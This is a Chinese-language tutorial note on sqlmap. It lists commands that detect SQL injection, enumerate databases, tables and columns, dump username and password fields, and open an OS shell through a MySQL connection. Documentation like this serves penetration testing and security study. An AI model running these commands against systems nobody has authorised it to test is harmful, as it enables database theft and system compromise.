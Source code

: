 ### 介绍

开源的自动化工具，主要用于检测和利用SQL注入漏洞。

sqlmap可以自动化地发现网站的SQL注入点，并提取数据库中的数据，如表名，列名，记录等，甚至在某些情况下可以获取系统权限





### 基本功能

- 检测SQL注入漏洞

- 枚举数据库信息（数据库名，表名，列名，数据）

- 执行系统命令（在特定条件下）





### 基本用法



#### 测试GET参数中是否存在sql注入

```
sqlmap -u <url>?id=1 --batch 
```

-u指定目标url

id为参数，1为值

--batch表示批量模式，启用这个选项后，sqlmap会在运行过程中自动选择默认选项，而不会停下来等待用户输入确认。




#### 测试POST参数是否存在sql注入

```
sqlmap -u <url> --data "id=1" --batch 
```

--data 指定post参数



#### 枚举数据库

```
sqlmap -u <url> --data "id=1" --dbs --batch 
```

--dbs 列出所有数据库名





#### 指定数据库名枚举表（testdb）

```
sqlmap.py -u <url>?id=1 -D testdb --tables
```

-D 指定数据库名

--tables 列出表名





#### 提取字段名（testdb数据库下的users表）

```
sqlmap -u <url>?id=1 -D testdb -T users --columns
```

-T 指定表名
--columns 列出字段名





#### 提取（testdb数据库下的users表中的username和password的数据）

```
 sqlmap -u <url>?id=1 -D testdb -T users -C "username,password" --dump
```

-C 指定列名
--dump 导出数据



#### 读取文件检测

将抓包内容保存到文件，利用sqlmap读取文件内容自动检测

```
sqlmap -l 1.txt --batch
```

![image-20250309162507850](./assets/image-20250309162507850.png)



(可以在要检测的注入点加 * 号)





#### getshell

```
sqlmap -d "mysql://root:123456@172.16.15.111:3306/mysql" --os-shell
```

![image-20250603124738024](./assets/image-20250603124738024.png)